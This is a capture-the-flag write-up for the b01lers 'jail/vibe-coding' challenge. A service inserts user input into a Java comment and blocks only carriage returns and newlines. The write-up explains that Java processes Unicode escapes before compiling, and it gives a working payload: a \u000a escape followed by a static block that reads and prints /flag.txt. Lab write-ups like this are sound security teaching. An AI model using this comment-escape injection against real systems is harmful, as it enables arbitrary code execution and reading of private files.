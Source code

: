 # jail/vibe-coding

## Challenge Summary
b01lers is looking for a vibe coder to fix our Java codebase! Just write a comment, and our bleeding-edge LLM agent will fill in the rest.*

Disclaimer: model not yet implemented.

`ncat --ssl vibe-coding.atreides.b01lersc.tf 8443`

## Overview

Connect to ncat --ssl vibe-coding.atreides.b01lersc.tf 8443. The service runs a Python script (server.py) that takes your input, inserts it as a comment in a Java template, compiles, and executes it.  
Our goal is exploit this to read /flag.txt.

**Setup**: Docker with pwn.red/jail, flag at /srv/flag.txt, accessible as /flag.txt in Java.  
**Server Script**: Blacklists \r, \n. Input becomes // <input> in:

```java
public class Main {
    // %s
    public static void main(String[] args) {}
    public static String getFlag() throws IOException {
        throw new RuntimeException("Not implemented yet");
    }
}
```

**Vulnerability**: Java processes Unicode escapes (e.g., \u000a = newline) before compilation. \u000a bypasses blacklist, ends comment, allowing code injection.

## Solution

Inject a static block to read and print `/flag.txt`:  

```java
\u000a static { try { java.io.BufferedReader br = new java.io.BufferedReader(new java.io.FileReader("/flag.txt")); System.out.println(br.readLine()); } catch (Exception e) { } }
```
